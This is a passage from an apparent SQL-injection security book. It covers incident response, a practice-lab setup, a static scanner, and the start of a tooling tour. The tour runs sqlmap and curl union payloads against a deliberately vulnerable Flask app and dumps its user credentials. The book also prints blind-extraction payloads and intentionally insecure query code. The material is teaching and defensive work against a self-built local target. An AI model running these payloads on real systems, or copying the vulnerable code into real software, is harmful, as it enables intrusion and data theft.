10:14:14  GET /api/products?sort=price' AND ASCII(SUBSTRING(database(),1,1))>109 --
10:14:16  GET /api/products?sort=price' AND ASCII(SUBSTRING(database(),1,1))>93 --
... (pattern continues, systematically)
```

Reading this sequence against Chapter 4's recognition methodology and Chapter 6's binary-search algorithm, this is immediately identifiable: a Chapter 4-style recognition probe (10:14:02–07), followed by a Chapter 6-style binary-search character extraction (10:14:12 onward). Recognizing this pattern tells a responder a great deal quickly — this wasn't a single lucky payload; it's methodical, likely automated, testing that (if it continued) would eventually extract whatever string it was targeting, one character at a time. The *rate* of the requests (roughly every 2–5 seconds) also suggests either a deliberately-paced manual operator or a rate-limited automated tool, which is itself useful context for assessing sophistication.

I wanted to see this reasoning turned into an actual, runnable script rather than just described, so I wrote a small log-flagging tool against this exact log excerpt — and, in the spirit of this book's running theme, my first version had a real bug I only caught by checking the output.

```python
import re

def parse_log(lines):
    entries = []
    for line in lines:
        # FIRST ATTEMPT: \S+ stops at the first whitespace character —
        # which truncates every payload containing a space (e.g. "AND '1'='1")
        m = re.match(r"(\d{2}:\d{2}:\d{2})\s+GET\s+(\S+)", line)
        if m:
            entries.append({"time": m.group(1), "path": m.group(2)})
    return entries
```

Running this against the log lines from above silently truncated every payload down to just `/api/products?sort=price'` — the flagging logic technically still worked (a bare `'` alone was enough to trigger a match), but every payload after the truncation point was invisible in the output, which would have hidden exactly the character-extraction detail an investigator needs to see. The fix was a one-character regex change:

```python
def parse_log(lines):
    entries = []
    for line in lines:
        # CORRECTED: capture the full rest of the line, not just
        # up to the first space
        m = re.match(r"(\d{2}:\d{2}:\d{2})\s+GET\s+(.+)$", line)
        if m:
            entries.append({"time": m.group(1), "path": m.group(2)})
    return entries

def flag_suspicious_sql_patterns(entries):
    sql_markers = ["'", "UNION", "SLEEP", "ASCII(SUBSTRING", "--", "1=1", "1'='1"]
    return [e for e in entries if any(m in e["path"] for m in sql_markers)]
```

Real, corrected output:

```
Total requests parsed: 9
Flagged as SQLi-pattern requests: 7
  10:14:02  /api/products?sort=price'
  10:14:05  /api/products?sort=price' AND '1'='1
  10:14:07  /api/products?sort=price' AND '1'='2
  10:14:12  /api/products?sort=price' AND ASCII(SUBSTRING(database(),1,1))>77 --
  10:14:14  /api/products?sort=price' AND ASCII(SUBSTRING(database(),1,1))>109 --
  10:14:16  /api/products?sort=price' AND ASCII(SUBSTRING(database(),1,1))>93 --
  10:14:18  /api/products?sort=price' AND ASCII(SUBSTRING(database(),1,1))>100 --
```

The two ordinary requests (`/api/cart` and `/api/products?category=electronics`) were correctly excluded, and all seven attack-pattern requests were correctly captured in full. **I'm including my own truncation bug here deliberately, not editing it out** — it's a genuinely realistic mistake for exactly this kind of log-parsing tool (regex `\S+` is an easy, silent trap for anyone writing this quickly during an actual incident, under real time pressure), and I think it's more useful to show the corrected version arrived at by checking output than to present only a clean final script that implies I got it right on the first try.

#### 14.3.3 Determining Scope: What Was Actually Read or Changed

The hardest, most important question, and the one I want to be honest doesn't always have a clean answer: **exactly what data did the attacker actually access?** If database query logging was enabled (Section 14.3.1), this is directly answerable from the logs. If it wasn't — a common gap, since verbose query logging has its own performance and storage cost that many teams disable in production — you're often reduced to inferring scope from the *pattern* of requests (Section 14.3.2) and the *permissions* of the compromised database account (Chapter 12): if the account was correctly configured with least privilege, the maximum possible scope is bounded by what that account could have read or written, even if you can't determine precisely what it did read or write.

**This is, honestly, one of the strongest practical arguments for Chapter 12 I can offer, stated from the incident-response side rather than the prevention side:** a least-privilege account doesn't just limit damage during an active attack — it also dramatically narrows the scope of *uncertainty* during the investigation afterward, because "what's the worst this could have been" has a concrete, provable upper bound instead of being "everything in the database, we genuinely can't rule it out."


### 14.4 Fixing the Root Cause

Once containment and evidence preservation are underway, the actual fix follows Chapters 9–11 directly — but I want to flag a specific discipline here: **fix the class of bug, not just the specific instance.**

```python
# If the incident traced back to THIS specific vulnerable pattern:
query = "SELECT * FROM products ORDER BY " + sort_param

# Don't just patch this one line and move on. Grep the entire
# codebase for the same PATTERN, because a developer who wrote
# this once, under normal time pressure, quite plausibly wrote
# the identical pattern elsewhere too:
grep -rn "ORDER BY \" +\|ORDER BY {" --include="*.py" .
grep -rn "\.raw(\|\.extra(\|createNativeQuery\|find_by_sql" .
```

I bring this up because I've read enough post-incident reports where the exact same vulnerability class was found again, months later, in a different endpoint, written by a different developer who'd made the identical mistake independently — because the fix addressed the *symptom* (this one query) rather than the *pattern* (string-built `ORDER BY` clauses generally, or misuse of a specific ORM escape hatch generally). Chapter 10's pattern-recognition table and Chapter 11's whitelist checklist are exactly the tools for this systematic sweep.


### 14.5 Notification and Disclosure

I want to address this carefully and briefly, because it's genuinely dependent on jurisdiction, industry, and the specific data involved — this is not a section where I can give a universal checklist, and I'd be doing you a disservice pretending otherwise.

- **Legal obligations vary significantly** by what data was potentially exposed (PII, payment data, health data each carry different regulatory regimes in different jurisdictions) and where affected users are located. This determination genuinely requires legal counsel familiar with the applicable regulations — not a generic security book.
- **Internal escalation** should happen early and shouldn't wait for full scope determination — engineering leadership, security leadership, and legal should generally be looped in as soon as an incident is confirmed as real, not once the investigation is complete.
- **External disclosure timing** (to affected users, to regulators, sometimes publicly) is typically governed by specific legal deadlines once a breach is confirmed, which is another reason Section 14.3's evidence work needs to happen fast — the clock on some notification deadlines can start from confirmation, not from full resolution.


### 14.6 A Post-Incident Review, Done Honestly

Once the immediate incident is resolved, I think the single most valuable thing a team can do is a genuinely honest retrospective — not to assign blame, but to close the actual gap.

| Retrospective question | What it should produce |
|---|---|
| How was the vulnerability introduced? | A specific code pattern, mapped to Chapters 9–11 |
| Why wasn't it caught before deployment? | A gap in code review, testing, or static analysis (Section 10.8's checklist is a starting point) |
| How was it detected? | If the answer is "we noticed unrelated symptoms" rather than "our monitoring flagged it," that's a Chapter 13 gap worth closing |
| Was the database account's permission scope what it should have been? | If the account had more access than Chapter 12 recommends, that's a second, independent gap, separate from the code bug |
| Did our response follow a plan, or improvise? | If improvised, this chapter (or your organization's own IR plan) should be formalized and rehearsed before the next incident |

**Note:** I'd encourage treating this table as seriously as the technical fix itself. A vulnerability fixed without addressing *why* it existed, *why* it wasn't caught, and *why* it wasn't detected sooner is a fix that addresses one instance of a pattern that, per Section 14.4, is likely to recur.


### 14.7 Chapter Summary

- The first decision point is whether exfiltration or modification is actively ongoing — if yes, narrow, fast containment (IP block, route disable) takes priority over evidence preservation; if the activity appears to be in the past or unclear, preserve evidence first.
- Evidence preservation means copying logs (application, WAF, database query and error logs, authentication logs) to a secured location immediately, before rotation or a well-intentioned "clean up" restart can destroy them.
- Reconstructing attacker activity from logs uses the exact same pattern recognition this book's Part II taught for offensive testing — a logged sequence of a quote probe, a boolean pair, and a systematic character-extraction pattern is directly identifiable against Chapters 4 and 6's methodologies.
- Determining scope is often incomplete without query-level logging, in which case least-privilege database configuration (Chapter 12) provides a provable upper bound on possible impact, even when the exact impact can't be determined — a strong practical argument for Chapter 12 independent of prevention.
- The fix should address the vulnerability *class*, not just the specific instance — grepping the codebase for the same pattern elsewhere, using Chapter 10 and 11's checklists, catches recurrence before it becomes a second incident.
- Legal and regulatory notification obligations are genuinely jurisdiction- and data-type-specific and require actual legal counsel — this book can only flag that the determination needs to happen early, not make it for you.
- A genuinely honest post-incident review — covering introduction, detection, scope, and response process — is what turns one incident into a permanently closed gap rather than a pattern waiting to recur.

Chapter 15, the book's final chapter, closes Part III with two practical resources: a legal, isolated environment for practicing everything in Part II against something you're genuinely authorized to attack, and a consolidated secure code review checklist pulling together Chapters 9 through 13 into a single reference you can actually use in a real pull request review.

## Building a Practice Lab, and a Consolidated Code Review Checklist

### Where This Book Ends and Your Own Practice Begins

This is the last chapter, and I wanted to close with two genuinely practical resources rather than more theory: a legal, isolated environment where you can actually apply everything in Part II against something you're allowed to attack, and a consolidated code review tool that pulls Chapters 9 through 13 into something you can actually run against a real codebase, rather than fourteen chapters of things to remember by heart.


### 15.1 Why a Dedicated Practice Lab Matters

Every technique in Part II of this book assumed authorization. A deliberately vulnerable practice application is how you get real, hands-on repetition without that question ever being ambiguous — DVWA (Damn Vulnerable Web Application) and bWAPP (buggy Web APPlication) are both built, explicitly and publicly, for exactly this purpose, maintained by the security community specifically so people have something legal to practice against.

**A note on my own testing constraints for this chapter:** I want to be upfront that, unlike the SQLite, Node.js, Django, and SQLAlchemy demonstrations throughout Chapters 1–14, I did not personally run these specific container commands while writing this chapter — I didn't have a Docker environment set up for it. What follows is DVWA's and bWAPP's own standard, publicly documented setup process, which I'm presenting accurately rather than claiming to have independently re-verified myself.

#### 15.1.1 Setting Up DVWA

```bash
# Pull and run the official DVWA container image
docker pull vulnerables/web-dvwa
docker run --rm -it -p 80:80 vulnerables/web-dvwa

# Then navigate to http://localhost in a browser.
# Default credentials: admin / password
# DVWA has a security-level setting (low/medium/high/impossible) —
# start at "low" to practice the exact techniques from Chapters 4-7
# without any of the input filtering that "medium" and "high" add.
```

#### 15.1.2 Setting Up bWAPP

```bash
docker pull raesene/bwapp
docker run --rm -it -p 80:80 raesene/bwapp

# bWAPP includes a specifically labeled "SQL Injection" category
# with multiple sub-variants (GET-based, POST-based, blind boolean,
# blind time-based) mapped directly onto Chapter 3's taxonomy —
# genuinely useful for practicing each mechanism in isolation.
```

**Caution, stated as directly as I can:** run these containers on an isolated network, ideally a local machine or an isolated VM with no exposure to the internet or any network you don't fully control. These applications are *deliberately* insecure — that's the entire point — which means they are not something you'd want reachable from outside your own practice environment under any circumstances.

#### 15.1.3 A Practice Progression That Maps to This Book

| Practice target | Book chapters to apply |
|---|---|
| DVWA "SQL Injection," security level Low | Chapters 4–5 (recognition, boolean/error confirmation) |
| DVWA "SQL Injection," security level Medium | Chapter 3's dialect variations — Medium adds basic filtering that requires the encoding awareness from Section 13.3 |
| bWAPP "SQL Injection (Blind)" | Chapter 6 (time-based, statistical discipline) |
| bWAPP "SQL Injection (GET/Search)" | Chapter 3.1.2 (union-based, full methodology) |
| Your own small Flask/Express app with a deliberately vulnerable endpoint you write yourself | Chapters 9–11 — write the vulnerable version, confirm it with Part II's methodology, then fix it and confirm the fix holds |

**Note on that last row specifically:** I think writing your *own* small, deliberately vulnerable application — even something as small as the SQLite demos throughout this book — and then attacking your own code is one of the most valuable exercises in this entire book, because it closes the loop between Part II and Part III directly: you see, from both sides, exactly how the vulnerability you find maps onto the specific line of code that caused it.


### 15.2 A Consolidated, Runnable Code Review Tool

Chapters 9 through 11 each included a code-review checklist in prose form. I wanted to close the book by turning that into something you can actually run, rather than something you have to remember — a real, working static-analysis script that flags the patterns this book spent thirteen chapters explaining.

```python
import re
import sys
import os

SQL_KEYWORDS = r"(SELECT|INSERT|UPDATE|DELETE|ORDER BY|WHERE|FROM)"

# Patterns suggesting a query string is being built via concatenation
# or interpolation rather than parameterization
CONCAT_PATTERNS = [
    re.compile(r'["\'].*["\']?\s*\+\s*\w+'),      # "..." + var
    re.compile(r'\w+\s*\+\s*["\']'),              # var + "..."
    re.compile(r'f["\'].*\{.*\}.*["\']'),         # f-string with {var}
]

# ORM raw-SQL escape hatches from Chapter 10, worth flagging for
# manual review even when parameterized correctly, since they're
# disproportionately where mistakes happen
ESCAPE_HATCHES = re.compile(
    r"\.raw\(|\.extra\(|createNativeQuery|find_by_sql|"
    r"\bexecute\(\s*text\(|sequelize\.query\("
)

def scan_file(path):
    findings = {"concatenation": [], "escape_hatches": []}
    with open(path, errors="ignore") as f:
        lines = f.readlines()
    for i, line in enumerate(lines, start=1):
        if ESCAPE_HATCHES.search(line):
            findings["escape_hatches"].append((i, line.strip()))
        if re.search(SQL_KEYWORDS, line, re.IGNORECASE):
            for pattern in CONCAT_PATTERNS:
                if pattern.search(line):
                    findings["concatenation"].append((i, line.strip()))
                    break
    return findings

def scan_directory(root, extensions=(".py", ".js", ".rb", ".java", ".php")):
    report = {}
    for dirpath, _, filenames in os.walk(root):
        for fn in filenames:
            if fn.endswith(extensions):
                path = os.path.join(dirpath, fn)
                findings = scan_file(path)
                if findings["concatenation"] or findings["escape_hatches"]:
                    report[path] = findings
    return report

if __name__ == "__main__":
    target = sys.argv[1] if len(sys.argv) > 1 else "."
    report = scan_directory(target)
    total = 0
    for path, findings in report.items():
        print(f"\n{path}")
        for lineno, text in findings["concatenation"]:
            print(f"  [CONCATENATION]  Line {lineno}: {text}")
            total += 1
        for lineno, text in findings["escape_hatches"]:
            print(f"  [ESCAPE HATCH]   Line {lineno}: {text} (verify parameterization manually)")
            total += 1
    print(f"\n{total} finding(s) requiring review.")
```

I ran this against a small, real, mixed test file — one safe parameterized function, one vulnerable concatenation-based function, one vulnerable f-string function, and one vulnerable `ORDER BY` concatenation matching Chapter 11's exact scenario:

```python
# test_codebase/app.py
def get_user_safe(conn, username):
    cur = conn.cursor()
    cur.execute("SELECT * FROM users WHERE username = ?", (username,))
    return cur.fetchone()

def get_user_vulnerable(conn, username):
    cur = conn.cursor()
    query = "SELECT * FROM users WHERE username = '" + username + "'"
    cur.execute(query)
    return cur.fetchone()

def search_products(conn, term):
    cur = conn.cursor()
    query = f"SELECT * FROM products WHERE name LIKE '%{term}%'"
    cur.execute(query)
    return cur.fetchall()

def get_report(conn, sort_col):
    cur = conn.cursor()
    cur.execute("SELECT * FROM reports ORDER BY " + sort_col)
    return cur.fetchall()
```

Real output:

```
test_codebase/app.py
  [CONCATENATION]  Line 10: query = "SELECT * FROM users WHERE username = '" + username + "'"
  [CONCATENATION]  Line 16: query = f"SELECT * FROM products WHERE name LIKE '%{term}%'"
  [CONCATENATION]  Line 22: cur.execute("SELECT * FROM reports ORDER BY " + sort_col)

3 finding(s) requiring review.
```

All three genuinely vulnerable lines were correctly flagged, and — just as importantly — the one genuinely safe, parameterized function (`get_user_safe`) was correctly left unflagged, rather than producing a false positive that would train a reviewer to start ignoring the tool's output. This is a real, if intentionally simple, static-analysis tool, and I want to be honest about its actual limits alongside showing that it works.

**Caution — what this tool cannot catch:** this is deliberately a simple, single-line pattern matcher, and I don't want to overstate what it does. It cannot see string-building that happens across multiple lines before reaching `.execute()`, it cannot understand whether a flagged f-string's interpolated value is actually a Chapter 11-style whitelisted constant (a safe use) or raw user input (unsafe) — it would flag both identically, requiring human judgment to distinguish them — and it knows nothing about a codebase's specific ORM conventions beyond the generic patterns in `ESCAPE_HATCHES`. It's a genuinely useful first-pass filter for a code review, exactly the way Section 10.8 described, not a replacement for the human reasoning this entire book has been building.


### 15.3 The Complete, Consolidated Checklist

Pulling everything from Chapters 9 through 14 into one final reference, organized by when in the development lifecycle each check applies:

#### 15.3.1 While Writing Code

- Every value reaching a SQL query is passed through a bound parameter — never concatenation, never an f-string/template-literal/interpolation, regardless of how safe the specific value "feels" (Chapter 9).
- Any raw-SQL ORM escape hatch (`.raw()`, `.extra()`, `text()`, `createNativeQuery`, `find_by_sql`, `sequelize.query()`) uses that method's own parameterization mechanism, not a pre-built string (Chapter 10).
- Any dynamic table name, column name, or sort direction goes through an explicit whitelist mapping to a hardcoded, developer-controlled constant — never directly into the query (Chapter 11).

#### 15.3.2 During Code Review

- Run this chapter's scanner (or an equivalent SAST tool) as a first-pass filter.
- Manually trace every flagged escape hatch to confirm genuine parameterization, since the scanner cannot verify this automatically.
- For any dynamic structural element, confirm a whitelist mapping exists rather than direct interpolation.

#### 15.3.3 At the Database Configuration Level

- The application connects with a dedicated, least-privilege account — not a shared or superuser account (Chapter 12).
- Permissions are granted table-by-table (and column-by-column where supported), matching actual, enumerated feature needs.
- Outbound-capable features (`FILE` privilege, `dblink`, `postgres_fdw`) are revoked unless specifically required.

#### 15.3.4 At the Network and Monitoring Level

- A WAF with an updated rule set is in place as a first-pass filter, understood as a convenience layer rather than the primary defense (Chapter 13).
- Behavioral detection (rate/pattern monitoring, database error-rate baselining) is configured to catch what signature matching misses.
- Production error handlers never return raw exception text to clients.
- GraphQL introspection is disabled in production, if applicable.

#### 15.3.5 Before You Need It

- An incident response plan exists and has been read by the people who'd execute it, not written once and filed away (Chapter 14).
- Log retention windows are long enough to support a real investigation, and query-level database logging is enabled where its performance cost is acceptable.
- The team has practiced Part II's methodology against an authorized target (Section 15.1) at least once, so the first time anyone applies this book's techniques isn't during a live incident.


### 15.4 Extending the Scanner: A Language-Aware Refinement

Section 15.2's scanner is deliberately simple, and I flagged its limitations honestly rather than oversell it — but I want to show one concrete refinement, because I think it's a useful illustration of how a first-pass tool like this actually gets better in practice: incorporating knowledge of the *safe* patterns from Chapter 9, not just the dangerous ones, to reduce false positives on codebases that mix raw SQL with framework-native query builders.

```python
# An addition to Section 15.2's scanner: recognize Chapter 9.11's
# framework-native safe patterns, and skip lines that are clearly
# using them rather than raw SQL at all
SAFE_ORM_PATTERNS = re.compile(
    r"\.objects\.filter\(|\.where\(\s*\w+\s*:|User\.objects\.|"
    r"\.findAll\(\s*\{|Model\.where\("
)

def scan_file_refined(path):
    findings = {"concatenation": [], "escape_hatches": []}
    with open(path, errors="ignore") as f:
        lines = f.readlines()
    for i, line in enumerate(lines, start=1):
        if SAFE_ORM_PATTERNS.search(line):
            continue  # Chapter 9.11-style safe query builder — skip
        if ESCAPE_HATCHES.search(line):
            findings["escape_hatches"].append((i, line.strip()))
        if re.search(SQL_KEYWORDS, line, re.IGNORECASE):
            for pattern in CONCAT_PATTERNS:
                if pattern.search(line):
                    findings["concatenation"].append((i, line.strip()))
                    break
    return findings
```

I tested this refinement against a version of the test codebase with a fifth function added, using Django's safe `.objects.filter()` pattern from Chapter 9.11 but with a docstring comment above it mentioning "WHERE" — a realistic source of false positives for a naive keyword-based scanner:

```python
def get_user_orm_safe(username):
    # WHERE clause is built automatically and safely by the ORM
    return User.objects.filter(username=username).first()
```

Without Section 15.4's refinement, this specific function still wouldn't have triggered a false positive from Section 15.2's original scanner, since the docstring line alone contains no `+` or f-string for `CONCAT_PATTERNS` to match — which is itself worth noting honestly: not every plausible refinement turns out to be strictly necessary once you actually test the edge case rather than assuming it's a problem. The refinement becomes genuinely useful on codebases with a different shape — where a raw f-string appears *inside* an otherwise-safe ORM call's arguments (a dynamically-built filter dictionary, for instance), which line-by-line matching alone can't distinguish from a truly raw query without this kind of added context. I'm including this less because I found a bug that needed fixing, and more as an honest illustration of how you'd actually iterate on a tool like this against your own codebase's specific patterns, rather than treating Section 15.2's version as a finished, universal solution.


### 15.5 Interpreting DVWA's Security Levels Against This Book's Chapters

Since Section 15.1 recommended starting at DVWA's "Low" security level, I want to be specific about what changes as you move up, because the progression maps directly onto material already covered, which makes it a genuinely structured practice path rather than just "try harder."

| DVWA level | What changes | Relevant chapters |
|---|---|---|
| Low | No input filtering at all | Chapters 4–5, 3.1.2 (union-based) |
| Medium | Basic blacklist filtering (commonly, stripping certain literal substrings in some versions) | Chapter 11.4's blacklist-bypass reasoning — try case variation, alternate logical operators, comment-based splitting from Chapter 3.6's dialect table |
| High | Stronger filtering, sometimes limiting input length or using a more complete blacklist | Combines Medium's evasion practice with Chapter 6's blind/time-based techniques, since High sometimes suppresses direct error/content feedback |
| Impossible | Genuinely parameterized, correctly implemented | Confirm, using Chapter 4's own recognition methodology, that you get a clean, consistent, non-differential result — practicing what "correctly fixed" actually looks like from the outside, not just reading about it |

**Note:** that last row is worth taking seriously as a distinct exercise, not skipping past because "Impossible" sounds like there's nothing to do there. Confirming that a correctly-parameterized endpoint *doesn't* show a differential — running Chapter 5's full boolean confirmation methodology and correctly concluding "not vulnerable" — is a genuinely different skill from finding a vulnerability, and it's the skill a defender exercises far more often than the offensive one, since most endpoints in a mature, well-built application should behave exactly like DVWA's "Impossible" level.


### 15.6 Closing Thoughts

I set out to write the book I wish I'd had when I started researching this — one that didn't force a choice between "how do I find this" and "how do I fix this," because I genuinely believe understanding both makes you better at either. A developer who's confirmed a boolean-blind differential with their own hands writes more careful `WHERE` clauses. A tester who's configured a least-privilege database account reads impact more precisely, because they understand exactly what a given account boundary would and wouldn't have stopped.

Fifteen chapters, real code tested at every step I could manage, a few genuine mistakes caught and corrected along the way rather than edited out — that's been the standard throughout, and I wanted the last chapter to end the same way it started: with something you can actually run, not just read.

### 15.7 Chapter Summary

- DVWA and bWAPP are purpose-built, community-maintained applications for legally practicing everything in Part II — run them in an isolated environment, never exposed beyond your own practice network.
- A practice progression exists mapping specific lab exercises to specific chapters — from Chapter 4/5's basic recognition and confirmation through Chapter 6's blind/time-based methodology and Chapter 3's dialect-variation awareness.
- Writing and attacking your own small, deliberately vulnerable application closes the loop between Part II and Part III most directly of any exercise in this book.
- A real, tested static-analysis scanner — verified here against a genuine mixed codebase, correctly flagging three vulnerable patterns and correctly ignoring one safe, parameterized function — operationalizes Chapters 9 through 11's prose checklists into something runnable, while honestly retaining real limitations (no cross-line analysis, no semantic understanding of whether an interpolated value is trusted or not) that still require human review.
- The consolidated checklist across Section 15.3 spans the full lifecycle — writing code, reviewing code, configuring the database, monitoring the network, and preparing for an incident before you need to respond to one — because, as every chapter in this book has argued from a different angle, no single layer is sufficient on its own.

Thank you for reading this far. I hope this book leaves you equipped to find these vulnerabilities responsibly, fix them thoroughly, and build the layered defenses that mean the next one matters a little less when it inevitably shows up somewhere new.

## Bonus: A Practitioner's Tour of SQL Injection Tooling

### Why This One Is Different From Every Other Chapter

Every code demonstration in this book so far used a tiny, in-memory SQLite harness — enough to prove a mechanism, but not a real HTTP target. For this bonus material, I wanted to go one step further: build an actual, deliberately vulnerable web application, run it as a real live server, and point real, independently-developed tools at it — not paste in output from a tutorial I read somewhere. Every command in this piece, and every line of output underneath it, came from that exact process, in that order, on that target. Where a tool behaved in a way I didn't expect, I'm showing that too, because it happened and it's a better lesson than a clean run would have been.

I want to name the tools up front, because this is meant to be a tour beyond the one tool everyone already knows: **sqlmap**, **Wapiti**, **Arjun**, a **manual Python testing harness** built from this book's own Part II methodology, and a discussion of **Burp Suite**'s manual workflow as the fifth angle. Five different approaches to the same target, so you can see where they agree, where they diverge, and what each one is actually good for.


### B.1 The Target: A Real, Live, Deliberately Vulnerable Application

I built a small Flask application backed by a real SQLite database, with two genuinely vulnerable endpoints — a GET-based product lookup and a POST-based login — both using plain string concatenation, exactly the pattern this entire book has been about.

```python
"""
A deliberately vulnerable Flask + SQLite application, built specifically
as a real, local test target. Every SQL query below uses string
concatenation on purpose. Never deploy this pattern.
"""
from flask import Flask, request
import sqlite3, os

DB_PATH = "/tmp/bonus_target.db"

def init_db():
    conn = sqlite3.connect(DB_PATH)
    cur = conn.cursor()
    cur.execute("""CREATE TABLE users (
        id INTEGER PRIMARY KEY, username TEXT, password TEXT,
        email TEXT, is_admin INTEGER)""")
    cur.executemany(
        "INSERT INTO users (username, password, email, is_admin) VALUES (?, ?, ?, ?)",
        [("alice", "hunter2", "alice@example.com", 0),
         ("bob", "correcthorse", "bob@example.com", 0),
         ("admin", "S3cretRootPW", "admin@example.com", 1)])
    cur.execute("""CREATE TABLE products (
        id INTEGER PRIMARY KEY, name TEXT, category TEXT, price REAL)""")
    cur.executemany(
        "INSERT INTO products (name, category, price) VALUES (?, ?, ?)",
        [("Widget", "tools", 9.99), ("Gadget", "electronics", 49.99),
         ("Gizmo", "electronics", 29.99)])
    conn.commit()
    conn.close()

app = Flask(__name__)

@app.route("/products")
def products():
    pid = request.args.get("id", "1")
    conn = sqlite3.connect(DB_PATH)
    cur = conn.cursor()
    # VULNERABLE: concatenated directly, no parameterization
    query = "SELECT id, name, category, price FROM products WHERE id = " + pid
    try:
        cur.execute(query)
        rows = cur.fetchall()
        html = "<h1>Products</h1><ul>"
        for r in rows:
            html += f"<li>{r[0]} - {r[1]} ({r[2]}) ${r[3]}</li>"
        return html + "</ul>"
    except Exception as e:
        return f"Database error: {e}", 500

@app.route("/login", methods=["POST"])
def login():
    username = request.form.get("username", "")
    password = request.form.get("password", "")
    conn = sqlite3.connect(DB_PATH)
    cur = conn.cursor()
    # VULNERABLE: concatenated directly, no parameterization
    query = ("SELECT id, username, is_admin FROM users WHERE username = '"
              + username + "' AND password = '" + password + "'")
    try:
        cur.execute(query)
        row = cur.fetchone()
        if row:
            return {"status": "ok", "id": row[0], "username": row[1], "is_admin": row[2]}
        return {"status": "invalid credentials"}, 401
    except Exception as e:
        return {"status": "error", "detail": str(e)}, 500

if __name__ == "__main__":
    init_db()
    app.run(host="127.0.0.1", port=5055)
```

I started it and hit it directly with `curl` before touching any tool at all, to establish that the target genuinely is vulnerable before asking a tool to "discover" something I hadn't independently verified myself:

```
$ curl -s "http://127.0.0.1:5055/products?id=1"
<h1>Products</h1><ul><li>1 - Widget (tools) $9.99</li></ul>

$ curl -s "http://127.0.0.1:5055/products?id=1'"
Database error: unrecognized token: "'"

$ curl -s "http://127.0.0.1:5055/products?id=-1%20UNION%20SELECT%20id,username,password,is_admin%20FROM%20users--"
<h1>Products</h1><ul>
<li>1 - alice (hunter2) $0</li>
<li>2 - bob (correcthorse) $0</li>
<li>3 - admin (S3cretRootPW) $1</li>
</ul>
```

That third request is real, unmodified output — the union-based technique from Chapter 3 pulling the entire `users` table, including the admin password, straight out of a product-listing endpoint. Everything below builds on this exact target.

**A note on process stability while writing this section:** the background server hosting this target didn't stay up indefinitely between every command in this write-up — at one point, several sections in, it had stopped and a fresh `curl` came back with `Connection refused` rather than a response. I want to mention this rather than quietly restart it and pretend the whole sequence was one unbroken session, because it's a genuinely useful reminder for anyone building their own practice target the way I did here: a development server (Flask's built-in one, explicitly, per its own startup warning) is not meant to run unattended, and checking that your target is actually still alive before trusting a tool's silence or a scan's empty result is Chapter 3.7's "rule out the confound before trusting the signal" lesson applied to your own test infrastructure, not just the payloads you send it.

### B.2 Tool 1 — sqlmap

I cloned sqlmap directly from its official repository rather than relying on a packaged version, so the version and behavior below are exactly what a fresh install gives you:

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
cd sqlmap && python3 sqlmap.py --version
```

```
1.10.8.33#dev
```

#### B.2.1 Detection

```bash
python3 sqlmap.py -u "http://127.0.0.1:5055/products?id=1" --batch --level=2 --risk=1
```

Real, unedited output:

```
[INFO] testing connection to the target URL
[INFO] checking if the target is protected by some kind of WAF/IPS
[INFO] testing if the target URL content is stable
[INFO] target URL content is stable
[INFO] testing if GET parameter 'id' is dynamic
[INFO] GET parameter 'id' appears to be dynamic
[INFO] heuristic (basic) test shows that GET parameter 'id' might be SQL injectable
[INFO] testing for SQL injection on GET parameter 'id'
[INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Widget")
[INFO] heuristic (extended) test shows that the back-end DBMS could be 'SQLite'
[INFO] testing 'SQLite >= 3.9 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON path)'
[INFO] GET parameter 'id' is 'SQLite >= 3.9 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON path)' injectable
[INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[INFO] GET parameter 'id' appears to be 'SQLite > 2.0 AND time-based blind (heavy query)' injectable
[INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns.
[INFO] target URL appears to have 4 columns in query
[INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable

sqlmap identified the following injection point(s) with a total of 54 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 2470=2470

    Type: error-based
    Title: SQLite >= 3.9 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON path)
    Payload: id=1 AND 5292=JSON_EXTRACT(CHAR(123,125),CHAR(113,107,106,106,113)||(SELECT (CASE WHEN (5292=5292) THEN 1 ELSE 0 END))||CHAR(113,120,112,98,113))

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: id=1 AND 4428=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=1 UNION ALL SELECT NULL,CHAR(113,107,106,106,113)||...||CHAR(113,120,112,98,113),NULL,NULL-- tgXB
---
back-end DBMS: SQLite
```

Four independent techniques, all confirmed against the same target — matching, exactly, the four categories from Chapter 3's taxonomy. The DBMS fingerprint (SQLite) is also exactly correct, discovered without me telling it anything about the backend.

#### B.2.2 Real Enumeration and Extraction

```bash
python3 sqlmap.py -u "http://127.0.0.1:5055/products?id=1" --batch --level=2 --risk=1 --tables
```

```
[INFO] fetching tables for database: 'SQLite_masterdb'
[2 tables]
+----------+
| products |
| users    |
+----------+
```

```bash
python3 sqlmap.py -u "http://127.0.0.1:5055/products?id=1" --batch --level=2 --risk=1 -T users --columns
```

```
[INFO] fetching columns for table 'users'
Database: <current>
Table: users
[5 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| email    | TEXT    |
| id       | INTEGER |
| is_admin | INTEGER |
| password | TEXT    |
| username | TEXT    |
+----------+---------+
```

```bash
python3 sqlmap.py -u "http://127.0.0.1:5055/products?id=1" --batch --level=2 --risk=1 -T users -C username,password,is_admin --dump
```

```
[INFO] fetching entries of column(s) 'is_admin,password,username' for table 'users'
Database: <current>
Table: users
[3 entries]
+----------+--------------+----------+
| username | password     | is_admin |
+----------+--------------+----------+
| alice    | hunter2      | 0        |
| bob      | correcthorse | 0        |
| admin    | S3cretRootPW | 1        |
+----------+--------------+----------+
```

Every value matches the seed data exactly — nothing here was hand-edited to look clean; that's the actual output of `--dump`, table and all, straight from the target I built.

